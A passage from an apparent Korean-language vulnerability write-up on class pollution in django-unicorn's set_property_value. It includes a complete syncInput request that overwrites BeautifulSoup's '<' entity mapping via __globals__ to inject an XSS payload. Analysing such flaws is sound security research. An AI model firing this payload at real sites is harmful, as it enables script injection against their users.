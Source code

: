 ```
                component_or_field[property_name_part_int] = property_value  # type: ignore[index]
                ...
            else:
                component_or_field = component_or_field[property_name_part_int]  # type: ignore[index]
                ...
        else:
            break
```
- 취약한 기능을 보면 ```set_property_value``` : ```django_unicorn/views/action_parsers/utils.py``` 위치에서 객체의 속성값을 수정하고있는것을 확인이 가능하다.
- 수정할 속성은 두 번째 매개변수인 ```property_name```으로 전달되며, ```.```으로 구문된 경로 형식으로 되어 있어 중첩된 객체 속성도 접근이 가능하다.
- 기본 객체는 첫 번째 매개변수인 ```component```이고, 세 번째 매개변수인 ```property_value```가 할당할 새 값이다.
- 이때 컴포넌트 요청에서 요청 타입을 ```syncInput```으로 지정하면, 페이로드 객체의 필드가 이 취약 함수의 두 번째 파라미터 와 세 번째 파라미터에 각각 전달되어 실행된다.
- 

![image](https://github.com/user-attachments/assets/baeb66df-9f11-4ad3-a023-a932f04079ab)
- 해당 페이지에서 12라는 값을 입력했을때의 요청과 응답의 결과는 위와 같다.
- ```Django_uncicorn```기반 으로 웹페이지가 동작하고있다.
- 해당 요청을 보면 컴포넌트 요청 타입을 ```syncInput```으로 정의가 되있는것을 확인할수 있다.
- 이때 페이로드인 첫번째 매개인```name```과 두번째 매개인 ```value```를 조작하면 class를 오염 시켜 공격자 임의의 값으로 덮어씌울수 있다.


## 내용 검증
```
{
  "id": "123",
  "data": {
    "task": "",
    "tasks": []
  },
  "checksum": "VkwNryc9",
  "actionQueue": [
    {
      "type": "syncInput",
      "payload": {
        "name": "__init__.__globals__.sys.modules.bs4.dammit.EntitySubstitution.CHARACTER_TO_XML_ENTITY.<",
        "value": "<img/src=1 onerror=alert('xss')>"
      },
      "partials": []
    },
    {
      "type": "callMethod",
      "payload": {
        "name": "add"
      },
      "partials": []
    }
  ],
  "epoch": 123,
  "hash": "DvmoVaED"
}
```
- 요청으로 보낼 내용은 위와같다.
- ```Django-unicorn```은 beautifulsoup4 라이브러리의 ```EntitySubstitution``` 규칙을 html포매터에 적용하여 모든 템플릿 응답 메시지를 포매팅 한다.
- 해당 규칙은 ```https://github.com/akalongman/python-beautifulsoup/blob/master/bs4/dammit.py#L79``` 해당 경로에 존재한다.
- 이에 해당 경로에 존재하는 CHARACTER_TO_XML_ENTITY부분의 ```<``` 부분을 오염시켜 해당 문자가 입력될때 xss가 실행되도록 오염시킨다.
